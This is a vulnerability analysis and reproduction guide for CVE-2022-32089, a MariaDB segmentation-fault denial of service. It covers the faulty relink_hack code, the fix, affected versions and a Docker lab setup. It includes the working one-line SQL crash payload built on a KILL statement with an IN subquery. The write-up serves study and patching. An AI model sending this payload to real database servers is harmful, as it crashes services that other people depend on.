



# CVE-2022-32089 CWE-None MariaDB DoS via Segmentation Fault

## Vulnerability Background
- **MariaDB :** An open-source relational database management system developed by the founders of MySQL, highly compatible with MySQL. It features high performance, high security, and ease of use, supporting multiple storage engines to ensure reliable data storage and efficient read/write operations. At the same time, MariaDB also possesses powerful query optimization capabilities, enhancing database performance and being widely used across various industries, providing strong support for data storage and management.
- **builtin_select:** is a "virtual parent query" designed by the MariaDB/MySQL parser to handle orphaned subqueries in expressions. By providing a default mountpoint and underlying context, it ensures that all query units are integrated into a unified parsing tree structure, serving as an important mechanism for maintaining the robustness of the parser. `builtin_select` provides a default, basic context environment. When an orphaned subquery is linked to it, it can inherit some necessary contextual information.
- **Query Parsing Process**: In MariaDB/MySQL parser design, there is a basic design principle: almost all subqueries or query expressions must be attached to a "slave" of, the master query. This way, a complete and clearly hierarchical parsing tree can be formed, making subsequent optimization and execution easier. When the parser encounters an "orphan" subquery, it automatically links that subquery to the builtin_select, allowing the builtin_select to act as its temporary, virtual parent query.
- **st_select_lex_unit::exclude_level Component**: Part of the query optimization and parsing process in MariaDB, used to manage query structure and the logical hierarchy of each option. During optimization, MariaDB generates a query execution plan, which involves analyzing and optimizing query conditions, table joins, subqueries, and more. At this time, the `st_select_lex_unit::exclude_level` component handles **selection criteria** and **hierarchical management** in the query. For example, when executing complex queries, it needs to correctly determine the relationship between subqueries and master queries.

## Vulnerability Mechanism
When MariaDB processes certain special SQL statements (such as subqueries in `KILL` or `IF`), a defective internal link function is triggered. Although this function links the subquery to the internal parsing tree, it fails to fully initialize its data structure (`st_select_lex_unit`), resulting in its key member variables  `exclude_level` Given an unpredictable memory junk value; Ultimately, when the query execution engine tries to read or use this `exclude_level` variable in subsequent steps, a segmentation error occurs due to accessing the invalid memory address pointed to by the garbage value, causing the entire server process to crash.

## Vulnerability Location
Analysis of MariaDB 10.6.3:

1. In the SQL \sql _lex.cc file, line **10377**, the `LEX::relink_hack` function is used to repair the linking relationships of subselect parsing trees in specific scenarios. It identifies "isolated" subqueries in unconventional contexts (`!select_stack_top` is true) and attempts to link them to `builtin_select`, a virtual top-level query.

   This function checks whether `select_stack_top` is empty. `select_stack_top` is a stack used to manage nested SELECT queries. If it is empty, it means the current parsing is not a regular SELECT query, such as `KILL  (('x' IN ( SELECT 1)) MOD 44);`. MariaDB's parser design requires that each query unit must have an affiliation and cannot exist out of thin air. Like `( SELECT 1 )`, it exists inside an expression and does not have a "regular" external `SELECT` query as its parent node. It became an "orphan" in the analytic tree. Such an "isolated" subquery has no regular external query as its home, so it is manually linked to the `builtin_select`, a virtual top-level query object, allowing the `builtin_select` to act as its temporary, virtual parent query.

   At line 10385, the `set_slave` function is called to connect, but this function **just sets a pointer**; it only records "My subordinate is this subquery" in the `builtin_select` object. It **does not** trigger a full context initialization for this subquery parsing unit.

   Due to the lack of complete initialization, the `exclude_level` member variable in this subquery parsing unit was not assigned a valid initial value. It retains an undefined, random garbage value. When subsequent query processing logic reaches this `exclude_level`, accessing illegal memory can cause the program to crash (segmenting error).

   ```cpp
   void LEX::relink_hack(st_select_lex *select_lex)
   {
       Check if the select_stack_top is empty
     if (!select_stack_top)
     {
         The select_lex that enters here is the parsINg unit for the IN (SELECT ...) subquery.
         Create a link to the subquery to the "built-in" query unit
       if (!select_lex->get_master()->get_master())
         ((st_select_lex *) select_lex->get_master())->
           set_master(&builtin_select);
         Create a "built-in" query unit backlink to a subquery
       if (!builtin_select.get_slave())
   ***** 10,385 lines ********** establishing connections ********** vulnerability points ********************
         builtin_select.set_slave(select_lex->get_master());
     }
   }
   ```

2. In the SQL \sql _lex.h file, line **797**, the `set_slave` function assigns the parameter `slave_arg` (a pointer to the `st_select_lex_node` object) passed when it calls it to the current object's internal member variable `slave`. It **simply** copies a memory address without performing any additional or critical initialization, does not check the state of the `slave_arg`, nor sets any other variable in the query cell the `slave_arg` points to (such as `exclude_level`).

   ```cpp
   void set_slave(st_select_lex_node *slave_arg) { slave= slave_arg; }
   ```

## Remediation
Replacing previously insecure `set_slave` functions with `builtin_select.register_unit` functions `register_unit` a standard, complete "registration" process. It doesn't just establish a link; more importantly, it **completes** all internal states of the subquery resolution unit, including setting `exclude_level` as a safe default value. **This fundamentally eliminates crashes caused by accessing uninitialized memory**.

```cpp
void LEX::relink_hack(st_select_lex *select_lex)
{
  if (!select_stack_top) // Statements of the second type
  {
      // It confirms that the subquery does not have a regular external query, and verifies again that it is an "isolated" subquery
    if (!select_lex->outer_select() &&
        // Check whether builtin_select has already linked a subunit
        // Prevents duplicate or incorrect links in certain complex scenarios (such as multiple orphaned subqueries in an expression).
        // Make sure this mount operation is only performed once when needed
        !builtin_select.first_inner_unit())
    {
        // Register and initialize the subquery unit
        // Retrieves the query unit node of the subquery and passes in the context of the builtin_select
        // Subqueries will be initialized based on this context
      builtin_select.register_unit(select_lex->master_unit(),
                                   &builtin_select.context);
        // Update relevant statistics
      builtin_select.add_statistics(select_lex->master_unit());
    }
  }
}
```

## Affected Versions
MariaDB :

- 10.4.0 to 10.4.35
- 10.5.0 to 10.5.16
- 10.6.0 to 10.6.8
- 10.7.0 to 10.7.4
- 10.8.0 to 10.8.3
- 10.9.0 to 10.9.1

## Environment Setup
Starting the Docker environment, MariaDB version is 10.6.3, administrator user is root, password is 12345, there is a database test_db, open port 3306, and the container contains PoC file CVE-2022-32089-PoC.sql.

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
Special SQL statements -> generate isolated subqueries -> call a defective linking function -> cause critical internal variables to be not initialized -> subsequent processes access the variable -> trigger illegal memory access -> server process crashes

1. Enter the container command line

```bash
docker exec -it mariadb-10.6.3 bash
```

2. Log in with the root user and connect to the database test_db

```sql
mariadb -u root -p test_db
```

3. Run the PoC file CVE-2022-32089-PoC.sql, and you will see that an error has been encountered and the container will automatically close

```sql
source CVE-2022-32089-PoC.sql
```



4. Checking the MariaDB crash log, you can see `[ERROR] mysqld got signal 11 ;`, indicating that the Segmentation Fault occurred in the `st_select_lex_unit::exclude_level` function.

```bash
docker logs mariadb-10.6.3
```



## PoC Analysis

```sql
KILL  (('x' IN ( SELECT 1)) MOD 44);
```

`KILL` command itself is not a regular `SELECT`, `UPDATE`, or `DELETE` query. Therefore, its parsing flow does not call `master_select_push()`, causing the critical query stack `select_stack_top` to be empty when parsing subqueries.

Statement `('x' IN ( SELECT 1))` contains a `IN` subquery. When the parser processes the `( SELECT 1 )` subquery, it finds itself in an "isolated" environment. At this point, call the `relink_hack` function, and the first line inside the function checks that the `if (!select_stack_top)` condition is true, allowing subsequent link operations to be executed.

## References
[NVD - CVE-2022-32089](https://nvd.nist.gov/vuln/detail/CVE-2022-32089)

[[MDEV-26410\] MariaDB server crash in st_select_lex_unit::exclude_level - Jira](https://jira.mariadb.org/browse/MDEV-26410)

[[MDEV-22001\] Server crashes in st_select_lex_unit::exclude_level during SP execution - Jira --- [MDEV-22001] Server crashes in st_select_lex_unit::exclude_level upon execution of SP - Jira](https://jira.mariadb.org/browse/MDEV-22001)

[MDEV-22001: Server crashes in st_select_lex_unit::exclude_level upon … · MariaDB/server@f439cfd](https://github.com/MariaDB/server/commit/f439cfdf93691d451a2efe075a90526bd67b8278#diff-6a0cd6c7ff6e3a2d3274b439cc41c3d493eb1400637a444b164f27c26c139478)
